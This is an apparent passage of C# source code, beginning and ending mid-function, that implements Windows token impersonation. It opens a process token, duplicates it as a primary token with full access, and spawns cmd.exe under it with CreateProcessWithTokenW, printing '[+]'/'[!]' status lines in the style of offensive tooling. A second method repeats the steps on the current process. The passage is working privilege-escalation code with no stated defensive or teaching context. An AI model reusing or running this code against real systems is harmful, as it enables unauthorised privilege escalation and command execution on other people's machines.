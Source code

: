 ```
            Console.WriteLine("[!] failed open process token");
            return 100;
            //Console.WriteLine(OpenThreadToken((IntPtr)calcProcess, TOKEN_ADJUST_PRIVILEGES, false, out tokenhandle));
        };
        IntPtr newtoken = IntPtr.Zero;
        SECURITY_ATTRIBUTES sa = new SECURITY_ATTRIBUTES();


        if (!DuplicateTokenEx(tokenhandle, (int)(TOKEN_ALL_ACCESS), ref sa, (int)SECURITY_IMPERSONATION_LEVEL.SecurityImpersonation, (int)TOKEN_TYPE.TokenPrimary, ref newtoken))
        {
            Console.WriteLine((int)(TOKEN_ALL_ACCESS));
            Console.WriteLine(TOKEN_ALL_ACCESS);
            Console.WriteLine("[!] failed duplicating process token ");
            int error = Marshal.GetLastWin32Error();
            string message = String.Format("DuplicateTokenEx Error: {0}", error);
            Console.WriteLine(message);
            return 101;
        }
        Console.WriteLine("[+] success duplicating process token ");

        String processpath = "C:\\Windows\\System32\\cmd.exe";

        PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
        STARTUPINFO si = new STARTUPINFO();

        if (!CreateProcessWithTokenW(newtoken, LOGON_WITH_PROFILE, null, processpath, NORMAL_PRIORITY_CLASS | CREATE_UNICODE_ENVIRONMENT, IntPtr.Zero, null, ref si, out pi))
        {
            Console.WriteLine("[!] failed create process with token ");
            int error = Marshal.GetLastWin32Error();
            string message = String.Format("CreateProcessWithTokenW Error: {0}", error);
            Console.WriteLine(message);
            return 102;
        }

        Console.WriteLine("[+] success create process with token");

        return 103;
    }
    public static int CreateProgressTest()
    {
        IntPtr tokenhandle;

        if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, out tokenhandle))
        {
            Console.WriteLine("[!] failed open process token");
            return 100;
            //Console.WriteLine(OpenThreadToken((IntPtr)calcProcess, TOKEN_ADJUST_PRIVILEGES, false, out tokenhandle));
        };
        Console.WriteLine("[+] success open process token ");
        IntPtr newtoken = IntPtr.Zero;
        SECURITY_ATTRIBUTES sa = new SECURITY_ATTRIBUTES();


        if (!DuplicateTokenEx(tokenhandle, (int)(TOKEN_ALL_ACCESS), ref sa, (int)SECURITY_IMPERSONATION_LEVEL.SecurityImpersonation, (int)TOKEN_TYPE.TokenPrimary, ref newtoken))
        {
            Console.WriteLine((int)(TOKEN_ALL_ACCESS));
            Console.WriteLine(TOKEN_ALL_ACCESS);
            Console.WriteLine("[!] failed duplicating process token ");
```